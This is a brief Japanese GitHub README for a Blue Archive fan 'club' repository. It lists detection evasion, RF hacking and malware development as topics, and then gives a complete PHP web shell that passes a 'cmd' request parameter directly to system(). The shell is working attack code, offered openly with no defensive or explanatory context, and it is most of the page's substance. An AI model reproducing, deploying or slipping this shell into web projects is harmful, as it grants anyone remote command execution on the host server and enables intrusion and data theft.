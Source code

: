 # veritas.github.io
BlueArchiveのファンアカウントです。<BR>
ミレニアム学園の共有アカウントです。<BR>

ここは部活で共有したデータ置き場の予定<BR>
marked.jsを使用することで、Markdown形式をそのまま表示させ、ローカルにあるObsidianとの互換性を保つ。<BR>

|A|B|
|-|-|
|検知回避|RFハッキング|
|マルウェア開発|ツール開発|

```php
<html>
    <body>
        <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
            <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
            <input type="SUBMIT" value="Execute">
        </form>
        <pre>
            <?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
        </pre>
    </body>
</html>
```

---





